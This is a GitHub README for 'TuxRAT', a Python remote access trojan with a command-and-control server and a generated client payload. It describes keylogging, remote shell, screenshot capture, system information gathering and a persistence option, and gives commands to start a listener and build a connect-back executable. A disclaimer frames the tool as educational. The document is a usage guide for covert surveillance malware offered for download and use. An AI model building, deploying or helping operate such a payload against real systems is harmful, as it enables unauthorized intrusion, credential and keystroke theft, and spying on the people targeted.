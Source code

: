 # TuxRAT

**⚠️ DISCLAIMER: This tool is intended for educational purposes and security testing on your own systems or systems you have explicit permission to test. Using this software for unauthorized access to systems you don't own is illegal.**

TuxRAT is a Remote Access Tool (RAT) written in Python. It consists of a command & control server and a client payload that can be compiled into an executable file.

## Features

### Server-side
- **Session Management**: View and manage connected clients
- **Remote Shell**: Execute commands on remote systems
- **Keylogger**: Start/stop and retrieve keystroke logs
- **System Information**: Gather information about target systems
- **Screenshots**: Capture screenshots from remote systems
- **Multi-client Interface**: Support for multiple simultaneous connections

### Client-side
- **Auto-connection**: Connects to the command & control server
- **Command Execution**: Execute shell commands remotely
- **Keylogging**: Capture keystrokes
- **System Information Gathering**: Send system data to server
- **Screenshot Capture**: Take and send screenshots

## Requirements

### Python Dependencies
```
tabulate
PyInstaller
pillow (for screenshots)
pynput (for keylogger)
```

### System Requirements
- Python 3.6+
- Supported OS: Windows, Linux
- PyInstaller for compiling executables

## Installation

1. **Clone the repository**:
```bash
git clone https://github.com/itstepkam/TuxRat
cd tuxrat
python3 TuxRat.py -h
```

2. **Install dependencies**:
```bash
pip install -r requirements.txt
```

3. **Create required directories**:
```bash
mkdir mods tmp keylogs screenshots
```

## Usage

### Server Mode (Command & Control)

Start the server to listen for incoming connections:

```bash
python3 TuxRat.py bind --address 0.0.0.0 --port 4444
```

**Options:**
- `-a, --address`: IP address to bind to (default: 0.0.0.0)
- `-p, --port`: Port number to bind to (required)
- `-h, --help`: Show help message

### Generate Payload

Create a client payload to deploy on target systems:

```bash
python3 TuxRat.py generate --address 192.168.1.100 --port 4444 --output client.exe
```

**Options:**
- `-a, --address`: Server IP address for client to connect to (required)
- `-p, --port`: Server port for client to connect to (required)
- `-o, --output`: Output file path (required)
- `-s, --source`: Generate Python source instead of compiled executable
- `--persistence`: Enable auto-start on reboot (under development)

## Server Interface

Once the server is running, you'll have access to a menu-driven interface:

### Main Menu
- **1. Show Sessions**: Display all connected clients
- **2. Connect to Client**: Select and connect to a specific client
- **3. Disconnect**: Disconnect from current client
- **0. Clear Screen**: Clear the terminal
- **99. Exit**: Shut down the server

### Client Menu (when connected to a client)
- **1. Show Sessions**: Display all connected clients
- **2. Connect to Client**: Switch to another client
- **3. Disconnect**: Disconnect from current client
- **4. Launch Shell**: Open interactive shell on target
- **5. Keylogger Menu**: Access keylogger functions
- **6. System Information**: Get target system details
- **7. Take Screenshot**: Capture target's screen
- **0. Clear Screen**: Clear the terminal
- **99. Exit**: Shut down the server

### Keylogger Menu
- **1. Turn Keylogger ON**: Start capturing keystrokes
- **2. Turn Keylogger OFF**: Stop capturing keystrokes
- **3. Dump Keylogs**: Save captured keystrokes to file
- **0. Back**: Return to client menu

## File Structure

```
TuxRAT/
├── TuxRat.py          # Main server application
├── mods/              # Client payload modules
│   ├── imports.py     # Required imports for client
│   ├── client.py      # Client core functionality
│   ├── main.py        # Client main execution
│   ├── sysinfo.py     # System information gathering
│   ├── screenshot.py  # Screenshot functionality
│   └── persistence.py # Persistence mechanisms
├── tmp/               # Temporary files during compilation
├── keylogs/           # Stored keylogger output
└── screenshots/       # Stored screenshots
```

## Output Files

- **Keylogs**: Saved to `keylogs/[CLIENT_IP]/[TIMESTAMP].txt`
- **Screenshots**: Saved to `screenshots/[CLIENT_IP]/[TIMESTAMP].png`

## Security Considerations

- This tool uses base64 encoding for data transmission (not encryption)
- Communications are sent in plaintext over the network
- The tool creates directories and files on the local system
- Antivirus software may detect generated payloads

## Legal Notice

This software is provided for educational and authorized testing purposes only. Users are responsible for complying with applicable laws and regulations. The authors assume no liability for misuse of this software.

## Troubleshooting

### Common Issues

1. **"Files missing to generate the payload!"**
   - Ensure the `mods/` directory exists with all required module files

2. **"Unable to bind to address"**
   - Check if the port is already in use
   - Verify you have permission to bind to the specified address

3. **Client not connecting**
   - Verify firewall settings allow connections on the specified port
   - Check that the server address and port are correct in the payload

4. **PyInstaller compilation errors**
   - Ensure PyInstaller is properly installed
   - Check that all dependencies are available

## Version

Current version: 1.0

## Author

- https://t.me/ErnestoMiyake
